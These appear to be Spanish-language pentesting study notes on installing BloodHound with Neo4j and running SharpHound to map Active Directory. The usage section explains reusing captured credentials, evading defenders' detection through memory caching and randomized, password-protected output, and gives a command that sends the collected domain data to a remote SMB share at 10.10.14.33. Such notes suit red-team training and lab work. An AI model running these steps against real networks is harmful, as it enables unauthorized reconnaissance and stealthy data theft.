 # Info

Bloodhound es una herramienta capaz de enumerar entornos de AD y Azure que, por medio de una interfaz, presenta los resultados de manera gráfica.

Utiliza una DB NoSQL para guardar los resultados y los presenta con un Graph data model

BloodHound muestra la información mediante **nodes** y **edges**. Los nodos son las OU, los edges son las relaciones que tiene una OU con otra.

# Instalación

Se requiere:

- Java 
- Neo4j

1) Agregamos el repo de java al source list

        echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list

2) Descargamos la key para el repo de neo4J

        wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -

3) agregamos el repo al sourcelist

        echo 'deb https://debian.neo4j.com stable 4.4' | sudo tee -a /etc/apt/sources.list.d/neo4j.list

4) Instalamos los paquetes requeridos

        sudo apt-get install apt-transport-https

5) instalamos neo4j

        sudo apt install neo4j

6) descargamos la última versión de bloodhound

        https://github.com/BloodHoundAD/BloodHound/releases
7) Descomprimimos fichero

        unzip BloodHound-linux-x64.zip && cd BloodHound-linux-x64/

8) lo corremos

        ./BloodHound --no-sandbox

# Uso

Iniciamos el neo4j con:

        sudo systemctl start neo4j

## COnfiguración del primer uso

Una vez iniciado el proceso, vamos al servicio iniciado en el localhost e iniciamos sesión con el user y pass neo4j

        http://localhost:7474/

Reestablecemos la contraseña.

## Recolección de información

Para recolectar información en los entornos de windows usamos SharpHound.

##### Modos de recolección:

| Metodo | desc |
|---|---|
|All | Busca todo lo que esté dentro del dominio menos los GPOLocalGroup |
|DCOnly | Colecta data solamente del DC sin preguntar al resto de los dispositivos domain-joined. Va a traer: Users, computadoras, security groups memberships, domain trusts, privilegios abusables dentro de los objetos. Entre otras cosas |
|Computer Only | Va a colectar información solamente de los equipos domain-joined |

        .\SharpHound.exe -c <metodo>


### Impersonación con SharpHound

Si conseguimos credenciales de otro usuario, podemos utilizarlo mediante las flags --ldapusername --ldappassword 

### Atacar un dominio en específico

SharpHound utiliza el dominio en el que nos encontramos por defecto, pero de haber multiples dominios en el Forest podríamos hacerlo indicando la flag -d y el dominio

        .\SharpHound.exe -c All -d <dominio>

### Entornos monitorizados

En un escenario donde el entorno se encuentra monitorizado, deberíamos realizar dos recolecciones con SHarpHound.

Primero realizamos una de tipo DCOnly, luego analizamos los resultados buscando computadoras que sean interesantes, creamos una lista de las mismas y luego corremos una computerOnly agregando la flag --computerfile y el file creado de las computadoras

        .\SharpHound.exe -c ComputerOnly --computerfile <file>

Se sabe que SharpHound, por defecto, genera distintos .json, que luego guarda en un zip. También genera un archivo con un nombre aleatorio y un .bin que corresponde a la caché de las consultas que realizas. Los equipos de defensa podrían utilizar estos patrones para detectar a Bloodhound. Una forma de intentar ocultar estos rastros es combinando algunas de estas opciones:

| Flag | Desc |
|---|---|
|--memcache | mantiene la caché en moria y no escribe en disco |
|--randomfilenames | Genera nombres de archivos aleatorios incluido el zip (modifica también la extención)|
|--outputprefix | Pone un prefijo a los archivos generados |
|--outputdirectory | señala el directorio en el que se guardarán los archivos |
|--zipfilename | nombra al zip final |
|--zippassword | da una contraseña al password |

Podríamos entonces levantar un smb y enviar el resultado de bloodhound al mismo

        SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword <pass> --outputprefix <pref> --randomfilenames

**<u>Atención:</u> **

Si el archivo que guardamos tiene password vamos a tener que descomprimirlo y luego enviar los archivos resultantes a bloodhound. Si no tiene password, indiferentemente de la extención del mismo, podemos sumarlo a bloodhound.
